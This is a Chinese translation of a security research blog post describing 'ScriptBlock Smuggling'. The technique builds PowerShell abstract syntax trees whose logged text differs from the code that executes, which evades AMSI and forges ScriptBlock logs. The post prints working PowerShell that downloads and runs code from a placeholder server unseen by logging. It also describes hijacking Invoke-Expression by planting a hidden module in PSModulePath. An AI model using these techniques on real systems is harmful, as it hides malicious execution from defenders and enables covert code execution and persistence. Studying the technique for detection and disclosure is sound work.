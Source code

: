 翻译：<https://bc-security.org/scriptblock-smuggling/>

注意：文章中显示的所有代码示例都可以在我们的 [repo](https://github.com/BC-SECURITY/ScriptBlock-Smuggling) 中找到

近年来，PowerShell在安全渗透测试者、攻击模拟团队以及一定程度的网络高级持续性威胁行为者中的使用率有所下降。这背后有多种原因，但主要是由于PowerShell v5版本和AMSI（反恶意软件扫描接口）引入了PowerShell的安全日志功能。这些新功能为网络安全防御团队提供了强有力的工具来抵御PowerShell带来的威胁。自这些安全特性推出后，业界陆续公开了一些AMSI绕过技术，比如Matt Grabber提出的反射式绕过方法和Rastamouse对AmsiScanBuffer函数的修补手段，以及一些ScriptBlock日志绕过技术，如Cobr团队的ScriptBlock日志绕过技术。但这些技术通常都需要完全关闭日志记录功能。直到现在，才出现了一种新的方法能够在不关闭日志的情况下伪造日志信息。ScriptBlock Smuggling技术允许攻击者在绕过AMSI的同时，将任意信息伪装进ScriptBlock日志。这种方法的另一个优势是，它既不需要使用反射技术，也不需要对内存进行修补，这对于避开许多防病毒软件和终端检测响应系统（EDR）的检测尤为重要。

在我们深入探讨ScriptBlock Smuggling技术的具体工作原理之前，首先需要简要了解PowerShell是如何利用抽象语法树（ASTs），以及ASTs的基本概念。简单来说，ASTs是一种树状结构，它由编译器根据源代码生成，用于进一步转换成计算机可以执行的机器代码。例如，如果你有一段看起来像这样的源代码：

```php
while b ≠ 0:

        if a > b:

                a = a − b

        else

               b = b − a

return a
```

然后，编译器会将其转换为类似于这样的形式：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-71c2df3b8673e71ad90ce4fd2ddcbe3b8c6c4542.png)

所有编程语言的编译器都遵循相同的工作机制，当你在PowerShell中创建一个脚本块（ScriptBlock）时，其过程并无二致。在PowerShell的抽象语法树（AST）中，所有节点的父节点是脚本块AST，这个对象不仅包含树的子节点，还包含多个属性。其中一项属性是“范围”（Extent），在这里，我们可以将其理解为脚本块的文本表现形式。当然，它还拥有一些其他的属性。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-f4e8f7646b4249ca19256f30c44a12f62bc3b037.png)

那么，这对 PowerShell 中的安全功能有何重要性呢？嗯，如果我们从 PowerShell GitHub 中查看代码，我们会在 [CompiledScriptBlock.cs](https://github.com/PowerShell/PowerShell/blob/7ec8e4ed8f47e81e70de5353500f8a01d5fe396c/src/System.Management.Automation/engine/runtime/CompiledScriptBlock.cs#L4) 中找到一些有趣的片段。

| ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-11133584634f5cca708a4370f739ac92c4c72c4e.png) |
|---|
| PowerShell 仅使用 ScriptBlock 的 Extent 生成日志 |

| ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-4c2c1653c4286b4c0e7f2c5264702260193776ec.png) |
|---|
| PowerShell 仅发送 ScriptBlock 的Extent到 AMSI |

结果发现，PowerShell中的所有安全机制仅处理脚本块（ScriptBlock）的文本范围，而不涉及其他内容。这一点颇为有趣。但是，考虑到我们创建脚本块时，无论是通过大括号{}包装代码，还是调用ScriptBlock的create()方法，其抽象语法树（AST）及其范围都是自动生成的。那么，我们该如何利用这些信息呢？实际上，我们完全可以手动构建自己的抽象语法树。

```php
[System.Management.Automation.Language.ScriptBlockAst]::new($Extent,
                                                            $ParamBlock,
                                                            $BeginBlock,
                                                            $ProcessBlock,
                                                            $EndBlock,
                                                            $DynamicParamBlock
                                                            )
```

更有趣的是，没有规则要求AST的文本表示（Extent）必须与AST中的开始块（BeginBlock）、处理块（ProcessBlock）或结束块（EndBlock）相一致。这些区块实际上是AST中包含可执行代码的部分。因此，如果我们能在这些区块和文本表示之间制造不一致，那么理论上我们就能执行代码，同时让记录的日志看起来与实际执行的代码不同。虽然我们可以手工构建这些区块，但在这里，我们选择更简单的方法：先构建两个脚本块（ScriptBlocks），然后利用它们的组件来构建第三个脚本块。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-c41fc2d4defface011cf7bf521c6ad00c5333900.png)

这里，我们仅创建了一个简单的伪装示例：日志记录显示为 Write-Output ‘Hello’，而实际执行的代码却是 Write-Output ‘World’。这证明了我们前文提到的理论效应实际上是成立的。显然，这段代码也会出现在日志里，但正如我们在之前的博客文章中提到的，ScriptBlocks 只有在第一次执行时才会被记录。示例代码可以修改如下：

```php
$wc=New-Object System.Net.WebClient
$SpoofedAst = [ScriptBlock]::Create("Write-Output 'Hello'").Ast  
$ExecutedAst = [ScriptBlock]::Create($wc.DownloadData(<server>)).Ast
$Ast = [System.Management.Automation.Language.ScriptBlockAst]::new($SpoofedAst.Extent,
                                                               $null,
                                                               $null,
                                                               $null
                                                               ExecutedAst.EndBlock.Copy(),                                                            
                                                               $null)
$Sb = $Ast.GetScriptBlock() 
```

执行的代码永远不会被日志或 AMSI 观察到。或者，我们可以像这样在 C# 中构建 ScriptBlocks：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-a35774630c70c7d57608dab9b4c505f5ff4f63a4.png)  
PowerShell 代码可以随后执行：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-72d2e407d8618e23e74971617b3b225927a5f8fd.png)

这个示例执行了 Write-Output ‘amsicontext’ 命令，展示了一种无需任何修补或反射即可绕过 AMSI 的技术。当我们运行这段代码时，通过检查日志我们可以发现，日志中再次仅记录了一次 Write-Output Hello 的输出。另外值得一提的是，由于某些原因，使用 ps.addcommand 方法时不会生成执行日志，而使用 ps.addscript 方法则能够如预期那样生成日志。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-9e0ededa0feea516bf7624311e6507f9dc029afa.png)

这个技术能用来做什么呢？它可以用做一个基本的AMSI（反恶意软件扫描接口）绕过工具，但也可能用于实现更有趣的事情，比如命令钩子。构建PowerShell的Cmdlets（小型命令模块）是相当简单的，而且PowerShell在Cmdlets和模块之间出现名称冲突时，会倾向于加载更新的模块。换句话说，如果我们将我们自定义的Cmdlet命名为“Invoke-Expression”，并将其放置在PSModulePath指定的路径之一，那么每当用户尝试执行Invoke-Expression命令时，实际上是我们的Cmdlet被触发了。默认的两个PSModulePaths路径是：

```php
C:\Users\<Username>\Documents\WindowsPowerShell\Modules    
C:\Program Files\WindowsPowerShell\Modules
```

第一种方法仅影响当前用户的设置，它能够隐藏文件夹而不影响其功能，这样用户就不容易察觉变化。然而，第二种方法需要至少具备本地管理员权限，因此在实用性上有所限制。为了让PowerShell能够识别并加载你的自定义模块，你可以创建一个与模块DLL文件同名的文件夹，并把DLL文件放入该文件夹中。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-663a2e18c24010b1a4635e0a29717c6a92e0f6cc.png)  
然后，下次他们执行 Invoke-Expression 时，他们的代码将表现出不同的行为，而日志将看起来像他们打算执行的代码。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-9b9036d6e48b4243bc48a2c8850fe3b19b29295e.png)

ScriptBlock Smuggling 是一种高级的网络攻击技术，它可以让攻击者在绕过安全防护软件的同时，伪造 PowerShell 安全日志，从而隐藏其恶意行为。该技术利用了 PowerShell 的一些特性，可以创建具有欺骗性内容的 ScriptBlock，从而绕过 AMSI 的扫描。

尽管该技术已经向 Microsoft 披露，但目前还没有有效的防御措施可以完全抵御其攻击。因此，我们建议用户密切关注相关安全公告，并及时更新软件和系统补丁，以降低被攻击的风险。

此外，我们还建议用户加强安全意识，不要轻易运行来源不明的脚本或代码，并定期对系统进行安全扫描，以尽早发现和清除潜在的威胁。